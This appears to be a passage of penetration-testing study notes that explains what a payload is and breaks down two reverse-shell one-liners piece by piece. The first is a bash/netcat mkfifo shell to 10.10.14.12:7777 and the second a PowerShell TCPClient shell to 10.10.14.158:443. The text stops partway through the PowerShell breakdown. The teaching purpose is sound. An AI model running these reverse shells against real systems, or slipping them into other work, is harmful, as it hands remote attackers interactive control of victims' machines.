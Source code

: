 - When we are sending a message to another user, that information within that message is called the payload. This is a part of the packets payload.
- When working with a payload, we must remind ourselves that we are talking about the code or malicious code that is sent over to the target.
- Let’s breakdown the code we used in the last section:

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f
```

rm -f /tmp/f;

- This is forcing the removal of /tmp/f if it exists.

mkfifo /tmp/f;

- Makes a FIFO named Pipe file at the location /tmp/f.

cat /tmp/f |

- Concatenates the FIFO named pipe file /tmp/f, the pipe then connects the standard output of the command cat /tmp/f and uses it as input for the command after the pipe character.

/bin/bash -i 2>&1 |

- Specifies the command language interpreter using the -i option to ensure the shell is interactive. 2>&1 ensures that stderr data stream and stdout data stream are redirected to the command following the pipe.

nc 10.10.14.12 7777 > /tmp/f

- Uses netcat to send a connection to our attack box 10.10.14.12 listening on port 7777. The output will be redirected to /tmp/f, serving the bash shell to our waiting netcat listener.

**Powershell One Liner Explained:**

`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

powershell -nop -c

- Executes powershell.exe with no profile (-nop) and executes the command/script block (-c) contained in quotes.

“$client = New-Object System.Net.Sockets.TCPClient(10.10.14.158,443);

- Sets/evaluates the variable $client which will be equal to New-Object cmdlet, which creates an instance of the System.Net.Sockets.TCPClient .NET framework object. The .NET framework will then connect with the TCP socket listed in parenthesis.

$stream = $client.GetStream();

- Set/evaluates the variable $stream equal to the $client variable and the .NET framework method called GetStream that facilitates network communications.

[byte[]]$bytes = 0..65535|%{0};

- Creates a byte type array ([]) called $bytes that returns 65,535 zeros as the values in the array.

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)

- Starts a while loop containing the variable $i set equal to the .NET framework Stream.Read. The parameters: buffer ($bytes), offset (0), and count ($bytes.Length) are defined inside the parentheses of the method.

{;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);